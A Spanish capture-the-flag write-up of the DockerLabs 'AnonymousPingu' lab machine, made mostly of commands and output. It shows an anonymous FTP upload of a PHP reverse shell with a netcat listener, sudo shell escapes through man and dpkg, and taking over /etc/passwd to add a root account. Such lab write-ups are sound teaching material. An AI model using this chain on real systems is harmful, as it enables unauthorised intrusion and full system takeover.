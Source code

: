 # Máquina AnonymousPingu

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Apr 28 21:08 upload [NSE: writeable]
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos mucha información por parte del servicio ftp, donde está habilitado el user **anonymous**.
Observamos que toda la info que nos reporta en el servicio **ftp** son los archivos fuente de la **web** que corre por el puerto 80.
Además, comprobamos que el directorio **/upload** dentro de la web, tiene capacidad de **directory list**, de forma que será fácil la intrusión.
Podremos subir una **reverse shell** y acceder a ella desde la web para ganar acceso.
La subimos al directorio **/upload**, que es el único lugar donde tenemos permisos de escritura.

Subiré la reverse shell típica de **PentestMonkey** -> [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```shell
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php shell.php
```

(Acuérdate de cambiar la IP a tu IP correspondiente y el puerto que quieras)

![Pasted image 20240429005132](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45802db3-6d7b-4747-9dcb-9d0401a43b09)

```shell
ftp 172.17.0.2
-> anonymous
cd upload/
put shell.php
```

Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

Accedemos a la **reverse shell** que ya debería estar alojada en la web.

```
http://172.17.0.2/upload/shell.php
```

Hemos ganado acceso a la máquina !
Aplicamos como siempre el tratamiento de la **tty**

------------
## Escalada de privilegios

Si hacemos **sudo -l** vemos que podemos ejecutar **man** como el usuario **pingu**. Podemos abusar de este para migrar a ese user.

```shell
sudo -l
--------------------------------
User www-data may run the following commands on 13d79de146ba:
    (pingu) NOPASSWD: /usr/bin/man
```

```shell
sudo -u pingu man man
!/bin/bash
whoami
------------------------
pingu
```

Hemos salido del contexto de **man** y migramos al user **pingu**.

Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User pingu may run the following commands on 4af23574d013:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

Podemos ejecutar **nmap** y **dpkg** como el user **gladys**.
Podemos repetir un proceso muy similar al de **man** con **dpkg**:

```shell
sudo -u gladys dpkg -l
!/bin/bash
```

Migramos al user **gladys**.
Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User gladys may run the following commands on 4af23574d013:
    (root) NOPASSWD: /usr/bin/chown
```

Podemos ejecutar **chown** como **root**
Cambiamos el dueño del **/etc/passwd**:

```shell
LFILE=/etc/passwd 
sudo chown $(id -un):$(id -gn) $LFILE
ls -l /etc/passwd
--------------------------------
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```

Ahora le pertenece a **gladys**.
Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña.
Como la máquina no tiene ningún editor de texto instalado, lo que haremos será crear un nuevo usuarios con los privilegios de **root** y añadirlo al **/etc/passwd**:

```shell
LFILE=/etc/passwd
sudo chown $(id -un):$(id -gn) $LFILE
openssl passwd hola123
echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
su newroot
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
